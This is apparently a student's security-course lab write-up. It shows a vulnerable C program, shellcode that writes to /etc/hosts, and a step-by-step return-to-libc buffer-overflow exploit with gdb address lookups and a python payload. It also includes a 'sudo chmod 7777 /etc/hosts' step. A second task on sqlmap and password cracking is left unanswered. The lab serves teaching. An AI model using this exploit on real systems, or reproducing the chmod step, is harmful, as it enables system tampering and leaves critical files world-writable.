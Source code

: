 # LAB#1, 22110093, Dinh Thi Thanh Vy, INSE331280E_02FIE
---

# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
**Question 1**:
- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: 

**Run virtual environment by docker file**
![alt text](./image/image.png)

Copy file c and file asm called name vuln.c and run_file.asm

**Run C program**
```
gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```

-m32: biên dịch thành mã 32-bit vì shellcode là 32-bit.
-fno-stack-protector: tắt cơ chế bảo vệ stack.
-z execstack: cho phép thực thi mã trên stack (để chạy shellcode).

**Run asm file**
```
    nasm -g -f elf run_file.asm 
    ld -m elf_i386 -o run_file run_file.o
```

### We can use return-to-libc to solve the problem

**Set environment variables by the command**

```
export MYBUF="/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file"

```


**To view environment variables, use the following command:**

```
env | grep MYBUF
```

Connect gdb to find the address of `system`, `exit` and the value `"/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file"`

After run the program by in gdb: ```r``` 

Find the address by this command step by step
```
p system
p exit
find /home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file
```

![alt text](./image/imag-8.png)

system: 0xf7e50db0
exit: 0xf7e449e0
/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file: 0xffffd933


### Stackframe 
![alt text](./image/image-4.png)


**Using the stack frame, we can calculate the payload to write:**

`padding (20 bytes) + address of system + address of exit + address of MYBUF’s value (/home/seed/seclabs/buf/Security-labs/software/buffer-overflow/run_file)`

**This command must to be:**

```
run $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x33\xd9\xff\xff')")
```

Exit gdb and connecting again

Run program by the command:

```
run $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x33\xd9\xff\xff')")
```

Check `/etc/hosts` folder by:

```
sudo cat /etc/hosts
```

![alt text](./image/image-5.png)


Why isn’t Google.com’s address listed here?
We need to configure permissions for the `/etc/hosts file.`

**Set permissions by the command:**

```
sudo chmod 7777 /etc/hosts
```

- `sudo`: Runs the command as superuser (root).
- `chmod 7777`: Gives read, write, execute permissions to everyone, plus SUID, SGID, and sticky bit.
- `/etc/hosts`: A critical system file that maps hostnames to IP addresses.

Connect gdb and run program again:
![alt text](./image/image-6.png)

Check folder `/etc/hosts` again

![alt text](./image/image-7.png)

Successfully!


# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
